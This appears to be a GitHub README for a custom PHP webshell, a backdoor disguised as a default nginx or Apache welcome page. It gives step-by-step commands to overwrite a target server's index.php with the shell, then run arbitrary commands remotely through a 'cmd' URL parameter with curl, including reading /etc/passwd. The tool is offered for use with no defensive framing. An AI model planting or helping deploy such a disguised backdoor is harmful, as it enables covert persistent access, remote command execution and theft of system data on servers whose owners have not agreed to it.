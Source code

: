# Webshell 
By Stacey Zheng

A custom webshell tool acting as a service backdoor but disguised as a "Welcome to nginx!" or "Welcome to Apache!" page.

## Prerequisites
- Git
- Curl 
- SSH session establshed with the target machine

## Instructions of Use
1) Change directory to /var/www/html
```
cd /var/www/html
```

2) Clone repo from Git (or download the files)
```
sudo git clone https://github.com/Szheng25/webshell.git
```

3) Copy webshell_nginx.php or webshell_apache.php into index.php 
```
sudo cp webshell/webshell_nginx.php index.php
```
```
sudo cp webshell/webshell_apache.php index.php
```

4) Use curl to execute commands like `ls`, `ip a`, and `cat /etc/passwd` 
```
curl “http://100.65.2.74/index.php?cmd=ls”
curl “http://100.65.2.74/index.php?cmd=ip+a”
curl “http://100.65.2.74/index.php?cmd=cat+/etc/passwd”
```